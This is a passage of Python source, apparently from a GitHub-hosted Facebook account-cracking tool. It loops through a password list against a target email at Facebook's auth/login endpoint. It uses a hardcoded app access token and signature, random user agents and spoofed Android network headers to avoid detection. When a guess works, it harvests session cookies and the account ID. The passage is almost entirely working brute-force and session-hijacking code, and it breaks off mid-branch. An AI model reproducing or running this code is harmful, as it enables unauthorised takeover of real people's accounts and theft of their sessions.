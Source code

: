 		prog.advance(des)

		try:

			for pw in pwx:

				pw = pw.lower()

				ua = random.choice(ugent)

				params = {

					"access_token": "200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16",

					"sdk_version": {random.randint(1,26)}, 

					"email": email,

					"locale": "en_US",

					"password": pw,

					"sdk": "android",

					"generate_session_cookies": "1",

					"sig": "4f648f21fb58fcd2aa1c65f35f441ef5"

				}

				headers = {

					"Host": "graph.facebook.com",

					"x-fb-connection-bandwidth": str(random.randint(20000000, 30000000)),

					"x-fb-sim-hni": str(random.randint(20000, 40000)),

					"x-fb-net-hni": str(random.randint(20000, 40000)),

					"x-fb-connection-quality": "EXCELLENT",

					"user-agent": ua,

					"content-type": "application/x-www-form-urlencoded",

					"x-fb-http-engine": "Liger"

				}

				post = ses.post("https://graph.facebook.com/auth/login",params=params, headers=headers, allow_redirects=False)

				if "session_key" in post.text and "EAA" in post.text:

					coki = ";".join(i["name"]+"="+i["value"] for i in post.json()["session_cookies"])

					user = re.findall("c_user=(\d+)",coki)[0]

					if user in self.ok or user in self.cp:

						break

					else:
